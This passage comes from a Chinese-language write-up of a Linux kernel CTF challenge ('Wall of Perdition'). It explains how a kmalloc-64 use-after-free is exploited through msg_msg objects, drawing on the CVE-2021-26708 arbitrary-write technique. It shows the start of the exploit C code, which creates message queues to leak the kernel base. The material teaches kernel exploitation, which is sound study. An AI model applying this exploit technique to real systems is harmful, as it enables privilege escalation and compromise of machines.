 


![1-6-succeed](/images/posts/msg_msg/1-6-succeed.png)

---

## 4. Wall of Perdition 复杂模式利用

**特点**：大小为`kmalloc-64`的UAF。

**现有的任意写、任意释放技术**： [Four Bytes of Power: Exploiting CVE-2021-26708 in the Linux kernel](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html) 中介绍了如何伪造`msg_msg->m_ts`来实现任意写，也通过`msg_msg->security`指针实现了任意释放，但是本题关闭了SELinux，则`msg_msg->security`指针总是指向NULL，本题不适用。

#### 4.1 步骤1——越界读泄露内核基址、`msg_msg->m_list.next / prev`

**创建2个消息队列**：

```c
[...]

void send_msg(int qid, int size, int c)
{
    struct msgbuf
    {
        long mtype;
        char mtext[size - 0x30];
    } msg;

    msg.mtype = 1;
    memset(msg.mtext, c, sizeof(msg.mtext));

    if (msgsnd(qid, &msg, sizeof(msg.mtext), 0) == -1)
    {
        perror("msgsnd");
        exit(1);
    }
}

[...]

// [1] 先调用msgget()创建两个队列，第一个标记为QID #0，第二个标记为QID #1。
if ((qid[0] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
```
